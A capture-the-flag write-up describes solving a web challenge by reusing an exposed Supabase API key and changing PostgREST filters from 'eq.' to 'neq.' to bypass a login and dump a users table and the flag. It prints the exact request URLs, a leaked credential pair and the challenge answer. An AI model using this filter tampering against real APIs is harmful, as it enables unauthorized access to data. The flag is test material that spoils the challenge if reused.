 # Silent Signals

```
Engage in a clandestine mission to decipher the silent signals that traverse the digital landscape. You are tasked to unravel the encrypted secrets concealed within the intricate web of digital communication.
```

# Solution

Like the previous challenge , this challenge too had a login page. Input a randon user and pass (Eg: admin:admin).

On clicking login, a request was sent to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/users?select=*&username=eq.admin&password=eq.admin`. <br/>
I found the values for "username" and "password" fields to be intersting.


On inspecting the request headers, I saw an API key. 

Then I sent a request to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/` with a request header named "apikey" and the API key as the value

![](1.png)

There was an endpoint named "flags" and most importantly this API is generated using "PostgREST" which explains why the value for "username" field contains eq. before the actual value. Here "eq" is short for equal to.

I modified the initial request to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/users?select=*&username=neq.admin&password=neq.admin` where "neq" stands for not equal to and this was the response
```json
[{"id":1,"username":"mec","password":"mec"}]
```

To get the flag, I sent a request to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/flags?select=*&flag=neq.xyz`.

```json
[{"id":1,"flag":"cyberQuest{JMTrZedZpFHgXLH2J9rvxXVJl3ksDKgpfWGPmmh922I=}"}]
```